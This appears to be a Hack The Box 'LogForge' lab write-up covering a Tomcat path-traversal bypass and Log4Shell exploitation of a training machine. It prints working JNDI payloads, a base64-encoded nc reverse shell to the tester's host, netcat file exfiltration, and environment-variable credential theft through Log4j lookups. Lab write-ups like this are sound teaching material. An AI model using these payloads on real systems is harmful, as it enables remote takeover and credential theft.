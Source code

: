 ## HTB Logforge (Medium) - Writeup

Difficulty: Medium

Discovered a Tomcat server with a /manager panel, accessed via a 403 bypass using a path traversal trick.  
Identified and exploited Log4Shell by injecting a JNDI payload in a logged parameter, leading to RCE.  
Gained a reverse shell using a serialized CommonsCollections gadget via JNDI Exploit Kit.  
Escalated to root by exfiltrating environment variables through Log4j to retrieve FTP credentials, then SSH’ed in with a leaked private key.  

---

## Nmap 

#### The nmap scan revealed two open and two filtered ports:  

![obraz](https://github.com/user-attachments/assets/0ece98b9-cef6-4d45-a3a3-f90b4ee531e8)



## Port 80 - Website  

The website consists solely of a static image, with no interactive or visible functionality.  

![obraz](https://github.com/user-attachments/assets/d312d04b-86a8-4f03-8c27-6f5f9e1c7776)  

Running Feroxbuster revealed the /admin directory, which returns a 403 Forbidden error.  

![obraz](https://github.com/user-attachments/assets/5a2e7c4a-5b0f-4ec1-aaca-9911d45f078e)

It also revealed that the website is running tomcat because of directories like /manager.  

We can check the headers with curl:  
```
curl -I http://10.10.11.138/
```
![obraz](https://github.com/user-attachments/assets/fbdeb2ba-365e-4216-ab4a-7fc06120e697)

It returns with Java cookie which indicates that backend is written in Java.  
Tomcat is also written in Java meaning it's another hint.  
We can re-run feroxbuster with additional extensions and different list:  
```
feroxbuster --url http://10.10.11.138/ -x js,jsp,java,xml -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![obraz](https://github.com/user-attachments/assets/6da9c81a-f398-4eac-be41-438626053592)

It found index.jsp but nothing more of interest.  



## 403 bypass trick

If we go to /manager we get 403 access denied.  
There is a report written by Orange Tsai that is a must read if you didn't do it already:  
```
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
```
I'll paste the part about tomcat here:  

![obraz](https://github.com/user-attachments/assets/815b0036-d80d-4262-814f-d6d2a8c43d4c)

It bypasses Tomcat’s path parsing and normalization logic.  

We can now access:  
```
http://<ip>/x/..;/manager
```
Luckily for us default credentials worked
+  tomcat:tomcat

![obraz](https://github.com/user-attachments/assets/a3030bff-0336-4526-89c6-a23499c5101e)



## Log4Shell - exploitation  

Given the name of the box there might be a log4shell vulnerability.  
There is an application /UHC{BadWayToBlockTomcat}  
We can click on expire and catch a request with burpsuite:  

![obraz](https://github.com/user-attachments/assets/35653c2b-6171-4198-83aa-deefeb5ad9be)

There is only one parameter called "idle", we can try basic log4shell payload to test if that's a case here.  
For it to work we must put a paylod in the field that will be logged by log4j java library.  
```
{% raw %} idle=${jndi:ldap://10.10.14.5/x}  {% endraw %}
```
And start tcpdump to listen for pings:  

![obraz](https://github.com/user-attachments/assets/995635a4-df56-4f8f-b3cf-4bdd462f0263)

![obraz](https://github.com/user-attachments/assets/665c180b-521b-4747-b257-f2cbfc9a9d85)

It works, now we want to get shell access.  
I had many problems with getting this shell.  
First I tried to run python server and marshalsec-jar ldap server but it couldn't redirect to my python server.  
Then I tried creating .ser paylod with ysoserial and running JNDI EXPLOIT KIT but it didin't work either.  
Finally the thing that worked was creating a payload directly in JNDI EXPLOIT KIT.  
In order to exploit this we need JNDI EXPLOIT KIT:  
```
git clone https://github.com/pimps/JNDI-Exploit-Kit.git 
mvn clean package -DskipTests
cd target
```
Then run it:  
```
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
```
Now run a special query to create a payload and run it:  
```
{% raw %}  ${jndi:ldap://10.10.14.5:1389/serial/CommonsCollections5/exec_unix/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pICAyPiYxfG5jIDEwLjEwLjE0LjUgIDkwMDUgPi90bXAvZg==} {% endraw %}
```
It failed with most of the payloads but the one we used and succeed was:  
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i  2>&1|nc 10.10.14.5  9005 >/tmp/f
```
In final payload we had to base64 encode it:  

![obraz](https://github.com/user-attachments/assets/21269274-b002-4327-9ce2-2b0b16194190)

It then gets to our server:  

![obraz](https://github.com/user-attachments/assets/1ba06685-e2e7-4653-bcf0-c88455d0f991)

And finally gives us a shell access:  

![obraz](https://github.com/user-attachments/assets/1f97c494-ae4c-4cd8-b974-5a46369af3af)



## Priv Esc

First we can retrieve a flag:  

![obraz](https://github.com/user-attachments/assets/ec491b2e-a816-4008-afaf-cc7e90cbf557)

There is a file ftpServer-1.0-SNAPSHOT-all.jar we can move it with netcat:  
```
Attacker:  
nc -nvlp 80 > ftpServer-1.0-SNAPSHOT-all.jar

Target:    
nc -w 3 10.10.14.5 80 < ftpServer-1.0-SNAPSHOT-all.jar
```

![obraz](https://github.com/user-attachments/assets/f40be02c-0e19-472e-bb6c-607ed71a4bcb)

![obraz](https://github.com/user-attachments/assets/e8255198-0ede-47e1-88cd-144e0d41b838)


To reverse engineer java files we can use jd-gui:  

![obraz](https://github.com/user-attachments/assets/0301bf26-20e8-4a05-81fd-95b4083759a0)

After looking through code we found credentials as two environment variables being set:  

![obraz](https://github.com/user-attachments/assets/bdce03e3-d03b-4656-8cef-c7725411091d)

In the username parameter it uses log4j library:  

![obraz](https://github.com/user-attachments/assets/1cb1e8a1-6d7a-45cf-9896-685d5bb6cf9e)

It means that we can connect to ftp and in the username parameter put JNDI payload like we did in the website to get a shell access.  
For it to work we need to start jdni exploit kit server as before.  
Then log into ftp on the target machine twice and use following payloads:  
```
{% raw %} ${jndi:ldap://10.10.14.5:1389/${env:ftp_user}} {% endraw %}
{% raw %} ${jndi:ldap://10.10.14.5:1389/${env:ftp_password}} {% endraw %}
```

![obraz](https://github.com/user-attachments/assets/f1e5503f-0f0c-43d1-aaae-778cbbb913d5)

Then the second payload:  

![obraz](https://github.com/user-attachments/assets/8dece602-5963-4079-8d56-90b0f1bac14e)

Now we can look what came to our server:  

![obraz](https://github.com/user-attachments/assets/c202a5b8-caf8-4060-869c-f72f48a5899a)

It has successfully exfiltrated credentials:  
+ ippsec:log4j_env_leakage

With credentials we can log into ftp on the target:  

![obraz](https://github.com/user-attachments/assets/d3715e0a-263a-43f3-be7c-4c36617bbbbf)

Ftp runs as root and we're in root directory.  
Easiest way to obtain shell access as root is to exfiltrate his ssh key.  

![obraz](https://github.com/user-attachments/assets/9d063d28-0589-4b83-b533-4dbd24bc4086)

Now we have to copy it to kali:  

![obraz](https://github.com/user-attachments/assets/63232069-691b-4ee1-8d4d-a76f80ae1917)

There is also a flag there:  

![obraz](https://github.com/user-attachments/assets/42b916d4-07b4-4580-9708-9553de51650e)

Thank you for reading!!  

































































